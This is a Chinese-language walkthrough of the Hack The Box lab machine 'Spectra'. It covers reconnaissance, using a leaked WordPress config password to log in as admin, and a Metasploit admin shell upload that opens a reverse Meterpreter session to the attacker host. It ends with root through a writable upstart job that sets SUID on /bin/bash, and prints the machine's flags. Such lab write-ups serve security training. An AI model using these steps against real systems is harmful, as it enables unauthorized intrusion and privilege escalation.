

# Spectra

:::info

Difficulty: Easy

Operating System: Other

:::

## nmap 信息搜集

```shell title="sudo nmap -A --min-rate=5000 -T5 -p- 10.10.10.229"
PORT     STATE SERVICE    VERSION
22/tcp   open  tcpwrapped
| ssh-hostkey:
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  tcpwrapped
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  tcpwrapped
```

## Web service

尝试访问

```shell
┌──(randark ㉿ kali)-[~]
└─$ http get http://10.10.10.229/
HTTP/1.1 200 OK
Accept-Ranges: bytes
Connection: keep-alive
Content-Length: 283
Content-Type: text/html
Date: Mon, 25 Mar 2024 15:24:15 GMT
ETag: "6019d26f-11b"
Last-Modified: Tue, 02 Feb 2021 22:30:07 GMT
Server: nginx/1.17.4

<h1>Issue Tracking</h1>

<h2>Until IT set up the Jira we can configure and use this for issue tracking.</h2>

<h2><a href="http://spectra.htb/main/index.php" target="mine">Software Issue Tracker</a></h2>
<h2><a href="http://spectra.htb/testing/index.php" target="mine">Test</a></h2>
```

加入 hosts 记录

```plaintext title="/etc/hosts"
10.10.10.229 spectra.htb
```

然后继续访问 `http://spectra.htb/main/`


### Wordpress 漏扫

一眼 Wordpress 框架，上扫描器看看

```shell title="wpscan --url http://spectra.htb/main/"
[+] Headers
 | Interesting Entries:
 |  - Server: nginx/1.17.4
 |  - X-Powered-By: PHP/5.6.40
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://spectra.htb/main/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://spectra.htb/main/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://spectra.htb/main/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://spectra.htb/main/?feed=rss2, <generator>https://wordpress.org/?v=5.4.2</generator>
 |  - http://spectra.htb/main/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.4.2</generator>

[+] WordPress theme in use: twentytwenty
 | Location: http://spectra.htb/main/wp-content/themes/twentytwenty/
 | Last Updated: 2024-01-16T00:00:00.000Z
 | Readme: http://spectra.htb/main/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 2.5
 | Style URL: http://spectra.htb/main/wp-content/themes/twentytwenty/style.css?ver=1.2
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://spectra.htb/main/wp-content/themes/twentytwenty/style.css?ver=1.2, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:29 <=================================================================================================================================> (137 / 137) 100.00% Time: 00:00:29

[i] No Config Backups Found.
```

没有发现有价值信息

### 目录爆破

尝试目录扫描

```shell title="dirsearch -u http://spectra.htb/"
[23:41:51] Starting:
[23:44:01] 301 -  169B  - /main  ->  http://spectra.htb/main/
[23:44:09] 200 -   25KB - /main/
[23:44:56] 301 -  169B  - /testing  ->  http://spectra.htb/testing/
```

看看 `/testing` 目录里面有什么



在其中，没有办法直接读取 php 文件，因为会被解析，但是其中的 `wp-config.php.save` 文件就可以直接读取

```php
?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'dev');

/** MySQL database username */
define('DB_USER', 'devtest');

/** MySQL database password */
define('DB_PASSWORD', 'devteam01');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define('AUTH_KEY',         'put your unique phrase here');
define('SECURE_AUTH_KEY',  'put your unique phrase here');
define('LOGGED_IN_KEY',    'put your unique phrase here');
define('NONCE_KEY',        'put your unique phrase here');
define('AUTH_SALT',        'put your unique phrase here');
define('SECURE_AUTH_SALT', 'put your unique phrase here');
define('LOGGED_IN_SALT',   'put your unique phrase here');
define('NONCE_SALT',       'put your unique phrase here');

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define('WP_DEBUG', false);

/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if (! defined( 'ABSPATH') ) {
    define('ABSPATH', __DIR__ . '/');
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```

经过尝试，数据库没有办法直接连接，此文件提供的凭据也没有办法直接登录 Wordpress 后台。经过在 Wordpress 前台进行搜集，发现用户 `administrator`

```plaintext
username: administrator
password: devteam01
```

### Wprdpress 后台

访问 `http://spectra.htb/main/wp-login.php`


确定凭据没有问题的话，就可以直接使用 Metasploit 进行攻击

```shell
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME administrator
USERNAME => administrator
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD devteam01
PASSWORD => devteam01
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /main
TARGETURI => /main
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts 10.10.10.229
rhosts => 10.10.10.229
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.3
lhost => 10.10.16.3
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.16.3:4444
[*] Authenticating with WordPress using administrator:devteam01...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /main/wp-content/plugins/mtRtjnqZQL/kQUUQqKUaR.php...
[*] Sending stage (39927 bytes) to 10.10.10.229
[+] Deleted kQUUQqKUaR.php
[+] Deleted mtRtjnqZQL.php
[+] Deleted ../mtRtjnqZQL
[*] Meterpreter session 1 opened (10.10.16.3:4444 -> 10.10.10.229:35186) at 2024-03-26 14:30:51 +0800

meterpreter > sysinfo
Computer    : spectra
OS          : Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64
Meterpreter : php/linux
```

## User - nginx

```shell
meterpreter > shell
Process 4661 created.
Channel 1 created.
sh: 0: getcwd() failed: No such file or directory
sh: 0: getcwd() failed: No such file or directory
cd /tmp
python3 -c 'import pty; pty.spawn("/bin/bash")'
nginx@spectra /tmp $ whoami
whoami
nginx
```

### 环境探测

发现敏感凭据文件

```plaintext title="/etc/autologin/passwd"
SummerHereWeCome!!
```

根据 `/home` 目录下的数据，推测为 `katie` 用户的凭据

## User - katie

```shell
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs katie@10.10.10.229
[15:02:06] Welcome to pwncat 🐈!
Password: ******************
[15:02:24] 10.10.10.229:22: normalizing shell path
[15:02:47] 10.10.10.229:22: registered new host w/ db
(local) pwncat$ back
(remote) katie@spectra:/home/katie$ whoami
katie
```

### flag - user

```shell
(remote) katie@spectra:/home/katie$ cat user.txt
e89d27fe195e9114ffa72ba8913a6130
```

### 环境探测

```plaintext title="sudo -l"
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

### initctl 利用

```shell
(remote) katie@spectra:/home/katie$ sudo /sbin/initctl list
crash-reporter-early-init stop/waiting
......
test2 stop/waiting
```

对这个 `test2` 服务进行下手

```plaintext title="/etc/init/test.conf"
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script

pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script

pre-stop script
    rm /var/run/nodetest.pid
    echo "[`date`] Node Test Stopping" >> /var/log/nodetest.log
end script
```

```javascript title="/srv/nodetest.js"
var http = require("http");

http.createServer(function (request, response) {
   response.writeHead(200, {'Content-Type': 'text/plain'});

   response.end('Hello World\n');
}).listen(8081);

console.log('Server running at http://127.0.0.1:8081/');
```

两个文件都是可控的，在这里选择控制服务配置文件

```shell
(remote) katie@spectra:/home/katie$ vim /etc/init/test.conf
```

```plaintext
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

        chmod +s /bin/bash

end script
```

然后启动服务

```shell
(remote) katie@spectra:/home/katie$ sudo /sbin/initctl start test
test start/running, process 5172
(remote) katie@spectra:/home/katie$ ls -lh /bin/bash
-rwsr-sr-x 1 root root 540K Dec 22  2020 /bin/bash
```

成功执行恶意负载

## User - root

```shell
(remote) katie@spectra:/home/katie$ bash -p
(remote) root@spectra:/home/katie# whoami
root
```

### flag - root

```shell
(remote) root@spectra:/root# cat root.txt
d44519713b889d5e1f9e536d0c6df2fc
```
